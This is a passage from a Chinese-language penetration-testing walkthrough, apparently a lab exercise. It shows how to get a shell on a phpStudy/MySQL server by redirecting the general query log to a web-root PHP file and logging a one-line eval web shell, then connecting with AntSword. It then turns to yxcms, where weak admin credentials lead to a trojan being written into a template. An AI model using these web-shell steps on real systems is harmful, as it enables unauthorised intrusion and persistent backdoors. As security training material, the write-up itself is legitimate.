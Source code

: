 结果为NULL表示不可写入文件

如果要修改需要通过mysql.ini配置文件修改

### 尝试通过日志写入木马

开启mysql日志功能：

```sql
	1.查看日志功能是否开启
	show global variables like '%general%'
	2.未开启的话设置为 on
	set global general_log='ON'
	3.开启后将日志文件的存储位置改为可访问到的目录， 根目录即可
	set global  general_log_file = 'C:/phpStudy/WWW/shell.php'
	4.执行下边一句话木马 
	数据库将会将查询语句保存在日志文件中
	SELECT '<?php @eval($_POST["cmd"]); ?>'
	5.写入成功后 使用蚁剑连接
```

​![image](http://127.0.0.1:6806/assets/image-20231210192331-jlx9pw2.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210192410-nwsczvp.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210192421-ba1mt8p.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210192714-a7faktq.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210192731-7a4gsz4.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210192802-p9fzn38.png)​

### 蚁剑连接

成功getshell

​![image](http://127.0.0.1:6806/assets/image-20231210192904-fywq36j.png)​

## <span style="font-weight: bold;" data-type="strong">yxcms</span>漏洞

可以看到在www目录下还有一个名为yxcms的网站目录

​![image](http://127.0.0.1:6806/assets/image-20231210200336-09ds3w8.png)​

### 弱口令

在公告处可以看到后台的地址和账号密码

​![image](http://127.0.0.1:6806/assets/image-20231210200412-sf9zxfa.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210200437-1a851h0.png)​

​![image](http://127.0.0.1:6806/assets/image-20231210200453-jqo3x8i.png)​

在前台模板中写入木马

​![image](http://127.0.0.1:6806/assets/image-20231210201810-o2kljvv.png)​
